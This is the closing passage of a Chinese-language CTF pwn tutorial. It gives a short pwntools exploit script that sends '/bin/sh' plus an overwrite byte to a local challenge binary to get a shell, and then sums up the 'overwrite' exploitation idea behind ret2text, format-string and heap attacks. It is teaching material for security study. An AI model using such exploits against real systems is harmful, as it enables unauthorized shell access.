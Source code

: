 ### 脚本
```python
from pwn import *
io=process('./filename')
context(log_level = 'debug', os = 'linux')



io.sendline(b'2')
io.send(b'/bin/sh\x00' + b'\x3b') """ 一行代码即可攻击成功 """

io.interactive()
```

## 总结

我们以ret2text为引例讲解了`覆写`这种利用思想，用一道与ret2text毫不相关的题目来更深刻的使用了这个思想，在后面的格式化字符串漏洞，花式栈溢出技巧，堆溢出漏洞中都很巧妙的运用了`覆写`的思想，通过各式各样的使用这个思想来达到一些复杂的攻击结果，我希望大家能感受到计算机中数据的重要性(这样就能更好的感受ret2libc中蕴含的泄露思想的重要性了)。同时，也希望大家从对这些精妙的攻击手法的使用中感受到计算机的美丽的结构以及pwn的魅力